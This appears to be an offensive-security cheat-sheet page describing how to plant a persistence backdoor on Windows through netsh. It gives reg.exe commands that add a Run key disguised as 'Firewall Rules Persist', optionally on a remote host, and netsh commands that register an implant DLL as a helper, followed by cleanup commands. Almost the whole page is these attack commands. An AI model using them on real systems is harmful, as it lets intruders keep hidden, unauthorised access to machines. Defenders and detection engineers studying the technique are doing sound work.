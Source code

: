 # Netsh

## Backdoor

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Firewall Rules Persist" /t REG_SZ /d "C:\Windows\System32\netsh" /f

C:\> netsh.exe add helper C:\path\to\implant.dll
```

Interactive prompt.

```
C:\> netsh.exe

netsh> add helper C:\path\to\implant.dll
```

## CleanUp

To cleanup the backdoor just specify the path to DLL implant.

```
C:\> netsh.exe delete helper C:\path\to\implant.dll
```

This can be done with an interactive prompt.

```
C:\> netsh.exe

netsh> delete helper C:\path\to\implant.dll
```

Delete the registry entry.

```
C:\> reg.exe delete "HKLM\SOFTWARE\Microsoft\NetSh" /v implant /f

C:\> reg.exe delete "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Firewall Rules Persist" /t REG_SZ /d "C:\Windows\System32\netsh" /f
```

---
## References

- [Persistence Info: `netsh.exe` extensions ](https://persistence-info.github.io/Data/netsh.html)